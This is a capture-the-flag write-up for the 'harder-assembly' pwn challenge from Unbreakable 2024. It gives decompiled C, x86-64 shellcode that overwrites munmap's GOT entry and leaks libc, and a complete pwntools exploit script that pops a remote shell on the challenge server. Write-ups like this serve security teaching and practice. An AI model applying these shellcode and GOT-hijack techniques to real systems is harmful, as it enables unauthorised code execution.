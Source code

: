 ```yaml
---
title: harder-assembly
type: writeup
date: 2024-04-07T14:23:28+03:00
description: Writeup for harder-assembly [Unbreakable 2024]
author: sunbather
tags:
- pwn
- asm
draft: false
---
```

___

## Challenge Description

I want the shell, but they want me to work for it, this time even harder :(

## Intuition

We receive a binary that essentially takes 15 bytes as input, checks if it contains the byte sequence ``0x0f05`` and then executes the input as shellcode. The sequence ``0x0f05`` corresponds to ``syscall``. Therefore, we can assume we have 15 bytes to get a shell, but we have to not use ``syscall`` as part of our shellcode. Somewhat cleaned-up main function below:

```c
void main(void)
{
  long lVar1;
  char *__buf;
  long in_FS_OFFSET;
  int i;
  char copy_buf [15];
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  copy_buf[0] = '\0';
  copy_buf[1] = '\0';
  copy_buf[2] = '\0';
  copy_buf[3] = '\0';
  copy_buf[4] = '\0';
  copy_buf[5] = '\0';
  copy_buf[6] = '\0';
  copy_buf[7] = '\0';
  copy_buf[8] = '\0';
  copy_buf[9] = '\0';
  copy_buf[10] = '\0';
  copy_buf[11] = '\0';
  copy_buf[12] = '\0';
  copy_buf[13] = '\0';
  copy_buf[14] = '\0';
  syscall();
  __buf = (char *)mmap((void *)0x0,0xf,7,0x22,0,0);
  read(0,__buf,0xf);
  copy_buf._0_8_ = *(undefined8 *)__buf;
  copy_buf._8_4_ = *(undefined4 *)(__buf + 8);
  copy_buf._12_2_ = *(undefined2 *)(__buf + 0xc);
  copy_buf[14] = __buf[0xe];
  for (i = 0; i < 0xf; i = i + 1) {
    if ((copy_buf[i] == '\x0f') && (copy_buf[i + 1] == '\x05')) {
      puts("You are not allowed to do that.");
      exit(0);
    }
  }
  (*(code *)__buf)();
  munmap(__buf,0xf);
  if (lVar1 == *(long *)(in_FS_OFFSET + 0x28)) {
    return;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

Usually, when you're limited in your "moves" in pwn challenges, the first step you need to think about is how to remove the limit. Therefore, our initial idea was to somehow get more than 15 bytes of shellcode running. We cannot modify the amount we are allowed to input, because it is hardcoded in the .text data, which is not writeable... We notice a call to mprotect hidden in the assembly, that makes the GOT RWX, which gives us the great idea to hijack functions from GOT:

```
004012a0 6a 0a           PUSH       0xa
004012a2 58              POP        RAX
004012a3 68 00 40        PUSH       _GLOBAL_OFFSET_TABLE_                            = 00403e20
         40 00
004012a8 5f              POP        RDI
004012a9 68 00 10        PUSH       0x1000
         00 00
004012ae 5e              POP        RSI
004012af 6a 07           PUSH       0x7
004012b1 5a              POP        RDX
004012b2 0f 05           SYSCALL
```

We can see that the only functions called after our shellcode are *munmap* and *__stack_chk_fail*. We can't trigger the stack fail, as there is no buffer overflow, so we choose to overwrite *munmap* with the address for *main*. And ta-da, we have infinite[^inf] 15 bytes shellcodes to run by returning to main in a closed loop. We overwrite munmap like so:

```asm
mov edi, 0x00404038 ; move the GOT location for munmap in rdi
mov eax, 0x0040125b ; move main address in rax
mov [rdi], rax      ; write main address to where rdi points
nop                 ; prob not necessary just wanted to pad to 15
ret                 ; ret so we don't start executing random data
```

Notice the weird random use of the 4-bytes registers edi and eax. This is because some opcodes are smaller in width when using smaller registers. So it let me use them without going over the 15 bytes limit.

Now, we can easily leak libc by printing the puts GOT address with a jump to puts from PLT:

```asm
mov rax, 0x004010a0  ; load puts addr from PLT into rax
mov edi, 0x00404018  ; load puts addr from GOT into rdi
call rax             ; call plt_puts(got_puts)
ret
```

We get the libc version with [https://libc.blukat.me/](https://libc.blukat.me/) and get the offsets to ``system`` and ``/bin/sh``. Then we just set up rdi and call ``system`` directly. We use a trick for setting up rdi before calling ``system``, which is to load ``/bin/sh`` address into r12 one _main_ iteration before. We do this because ``mov rdi, ADDR`` is bigger in width than ``mov rdi, r12`` and r12 is not changed between _main_ calls. Last two shellcodes below:
```asm
trick:
	mov r12, BIN_SH_ADDR
	ret

call_system:
	mov rdi, r12
	mov rax, SYSTEM_ADDR
	jmp rax
```

Notice the jmp to rax instead of a call. Calling ``system`` instead of jumping to it will crash it because the stack is misaligned.

## Solution

```py
#!/usr/bin/env python3

from pwn import *

context.update(arch='amd64', os='linux')

# libc6_2.35-0ubuntu3.5_amd64
system_offset = -0x300e0
bin_sh_offset = 0x157828

def inspect_payload(payload):
    print(payload, len(payload))


# overwrite munmap with main
payload = asm(
    """
    mov edi, 0x00404038
    mov eax, 0x0040125b
    mov [rdi], rax
    nop
    ret
    """
)

# leak puts addr
leak_payload = asm(
    """
    mov rax, 0x004010a0
    mov edi, 0x00404018
    call rax
    ret
    """
)


#target = process("./harder")
target = remote("34.89.210.219", 31120)

inspect_payload(payload)
target.send(payload)

inspect_payload(leak_payload)
target.send(leak_payload)
leak = u64(target.recvline().strip() + b"\x00\x00")
print(f"PUTS LEAK:{hex(leak)}")

test = asm(f"mov r12, {leak+bin_sh_offset}\nret\n")
inspect_payload(test)
target.send(test)

pwn_time = asm(f"mov rdi, r12\nmov rax, {leak+system_offset}\njmp rax\n")
inspect_payload(pwn_time)
target.send(pwn_time)

target.interactive()
```

[^inf]: Okay fine not _infinite_... We can call it as long as we don't overflow the stack segment allocated in virtual memory. Check out [this video from Laurie Wired](https://youtu.be/_6zAAhkU_Iw?si=HvPFU2ys61S6meYU) to see what I mean.
